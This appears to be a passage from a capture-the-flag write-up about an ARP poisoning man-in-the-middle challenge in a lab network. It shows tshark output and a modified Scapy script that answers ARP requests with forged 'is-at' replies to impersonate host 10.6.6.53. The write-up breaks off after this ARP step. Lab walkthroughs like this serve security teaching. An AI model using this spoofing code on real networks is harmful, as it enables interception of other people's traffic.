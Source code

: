 - Scapy will be needed based on the practice to CLI challenge
- There are 2 Scapy programs dealing with `arp` and `dns`
- An Elf hint says we need to MitM; `arp` poisoning will probably be necessary
- The scripts indicate we will need to use Python Scapy to craft `arp` and `dns` scripts
- The host `10.6.6.35` should be examined, try a packet capture with `tshark` or `tcpdump`


## Solving

The Elf hint talks about an MitM attack. The MOTD mentions the IP address `10.6.6.35` is a host of interest.  Start off by using `tshark` to see what type of traffic the host is generating.  The ARP `Who has` packets with no response validates my initial assumptions about using an `arp` poisoning attack:

```
guest@bfd2cf84e187:~$ tshark -nni eth0 'host 10.6.6.35'
Capturing on 'eth0'
    1 0.000000000 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    2 1.052009330 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    3 2.092347219 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    4 3.143949348 4c:24:57:ab:ed:84 → ff:ff:ff:ff:ff:ff ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
```

I have a high level of confidence based on the hints, Scapy CLI practice, and `arp_resp.py` file in the scripts directory that Scapy is the expected method to respond to the ARP `Who has` packets.  

I manually modified the `./scripts/arp_resp.py` script to construct the proper ARP reply.

Modified fields:

- Compromised machine: 10.6.6.35
- Local MAC address: 02:42:0a:06:00:04
- Remote MAC address: 4c:24:57:ab:ed:84
- ARP response code: `is-at`

```
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:04")
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 'is-at'
        #arp_response.plen = 99999
        #arp_response.hwlen = 99999
        #arp_response.ptype = 99999
        #arp_response.hwtype = 99999
        arp_response.hwsrc = "02:42:0a:06:00:04"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        #arp_response.pdst = "SOMEVALUEHERE"
        response = ether_resp/arp_response
        sendp(response, iface="eth0")
def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
if __name__ == "__main__":
    main()
```
